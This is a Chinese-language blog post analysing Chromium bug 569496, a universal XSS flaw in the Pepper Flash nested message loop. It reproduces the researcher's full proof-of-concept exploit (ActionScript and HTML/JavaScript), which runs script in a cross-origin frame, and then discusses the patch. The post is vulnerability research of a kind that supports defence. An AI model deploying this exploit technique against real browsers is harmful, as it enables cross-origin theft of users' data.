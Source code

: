 ```yaml
---
layout:		post
title:		"编号569496的UXSS漏洞分析"
subtitle:	"价值7500美刀的UXSS"
data:		2016-11-24
author:		"dogewatch"
header-img:	"img/contact-bg.jpg"
tags:
    - web
    - 漏洞
---
```


> 想挖UXSS

# 前言

之前在[《那些年搞过的两个浏览器》](http://dogewatch.github.io/2016/10/18/calc/)中用到了一个价值7500美刀的chrome的UXSS漏洞，这两天刚好看到有人给出了一篇分析报告，于是想着再把这个洞好好看一看，留个笔记以备日后所需。

# 正文

先给出漏洞地址：[https://bugs.chromium.org/p/chromium/issues/detail?id=569496](https://bugs.chromium.org/p/chromium/issues/detail?id=569496)

影响版本是

```
Chrome 47.0.2526.80 (Stable)
Chrome 48.0.2564.41 (Beta)
Chrome 49.0.2587.3 (Dev)
Chromium 49.0.2591.0 + Pepper Flash (Release build compiled today)
```

漏洞作者给出了造成该漏洞的代码段，位于/content/renderer/pepper/ppb_flash_message_loop_impl.cc

```c
int32_t PPB_Flash_MessageLoop_Impl::InternalRun(
    const RunFromHostProxyCallback& callback) {
(...)
  // It is possible that the PPB_Flash_MessageLoop_Impl object has been
  // destroyed when the nested message loop exits.
  scoped_refptr<State> state_protector(state_);
  {
    base::MessageLoop::ScopedNestableTaskAllower allow(
        base::MessageLoop::current());
    base::MessageLoop::current()->Run();
  }
(...)
}
```

造成该漏洞的原因大致是因为`PPB_Flash_MessageLoop_Impl::InternalRun`这个函数在执行一个嵌套的消息循环时，没有初始化一个`ScopedPageLoadDeferrer`，即推迟加载脚本，导致在这个循环内能够加载来自任意域的脚本文件。

作者提供了一个[EXP](https://bugs.chromium.org/p/chromium/issues/attachment?aid=190008)，里面包含了4个文件，其中起主要作用的是p.as和exploit.html。

p.as

```java
package {
  import flash.display.*;
  import flash.external.*;
  import flash.printing.*;
  public class p extends Sprite {
    public function f():void {
      new PrintJob().start();
    }
    public function p():void {
      ExternalInterface.addCallback('f', f);
      ExternalInterface.call('top.cp');
    }
  }
}
```

exploit.html

```javascript
<script>
var c0 = 0;
var c1 = 0;
var fs = [];

function cp() {
  ++c0;
}

for (var a = 0; a < 10; a++) {
  var i = document.documentElement.appendChild(document.createElement('iframe'));
  i.src = 'p.swf';
  fs.push(i);
}

function ml() {
  var pw = fs.pop().contentWindow;
  pw.name = 'p' + fs.length;
  pw.document.querySelector('embed').f();
  var a = document.createElement('a');
  a.href = 'about:blank';
  a.target = 'p' + fs.length;
  a.click();
  if (fs.length < 6) {
    var then = Date.now();
    while (Date.now() - then < 1000) {}
  }
}

function f() {
  if (++c1 == 2) {
    var x1 = x.contentWindow[0].frameElement.nextSibling;
    x1.src = 'https://abc.xyz';
    try {
      while (x1.contentDocument) { ml(); }
    } catch(e) {
      x1.src = 'javascript:if(location!="about:blank")alert(location)';
    }
  }
}

function c() {
  if (c0 == 10) {
    clearInterval(t);
    x = document.documentElement.appendChild(document.createElement('iframe'));
    x.src = 'f.html';
  }
}

var t = setInterval(c, 100);
</script>
```

其主要原理是创建多个源为flash文件的iframe，然后调用as脚本开启打印任务。这时chrome将调用前面提到的`PPB_Flash_MessageLoop_Impl::InternalRun`方法，在主线程中运行一个messageloop，因为这个方法没有设置`ScopedPageLoadDeferrer`来推迟加载从而导致嵌套的MessageLoop在循环时能够回调脚本并加载任意资源从而造成了UXSS漏洞。

通过官方修补补丁可以更容易了解这个漏洞的成因

![img](/img/post/chrome-1.png)

可以看到在循环前后分别调用了`blink::WebView::willEnterModalLoop()`和`blink::WebView::didExitModalLoop()`两个方法，在`third_party/WebKit/public/web/WebView.h`中可以看到

```c++
// Call these methods before and after running a nested, modal event loop
// to suspend script callbacks and resource loads.
BLINK_EXPORT static void willEnterModalLoop();
BLINK_EXPORT static void didExitModalLoop();
```

根据注释可以看到修复的思路就是在执行一个嵌套的循环事件前后通过这两个方法来阻止脚本回调和资源的加载。

具体利用效果可以参考前面提到的两个浏览器漏洞里的百度浏览器那一部分。
